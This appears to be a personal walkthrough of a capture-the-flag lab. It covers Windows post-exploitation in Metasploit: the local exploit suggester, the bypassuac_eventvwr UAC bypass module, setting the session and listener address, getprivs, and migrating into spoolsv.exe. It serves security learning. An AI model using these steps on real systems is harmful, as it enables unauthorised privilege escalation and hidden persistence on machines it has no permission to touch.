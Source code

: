 > [!check]- Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?
> x64

```shell
run post/multi/recon/local_exploit_suggester
```
![Pasted image 20240824221707.png|500](/img/user/attachments/Pasted%20image%2020240824221707.png)

> [!check]- Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?
> exploit/windows/local/bypassuac_eventvwr

Check the number session
![Pasted image 20240824231014.png|500](/img/user/attachments/Pasted%20image%2020240824231014.png)
Set session number `1` 
```shell
set SESSION 1
```

```shell
setg Lhost 10.10.x.x
```

> [!check]- Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?
> LHOST

Exec `run`

> [!check]- We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?
> SeTakeOwnershipPrivilege

```shell
getprivs
```
![Pasted image 20240824232307.png|200](/img/user/attachments/Pasted%20image%2020240824232307.png)
# Looting
```shell
ps
```
![Pasted image 20240825101506.png](/img/user/attachments/Pasted%20image%2020240825101506.png)

> [!check]- The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service?
> spoolsv.exe

Migrate
```shell
migrate -N spoolsv.exe
```
![Pasted image 20240825103500.png|300](/img/user/attachments/Pasted%20image%2020240825103500.png)
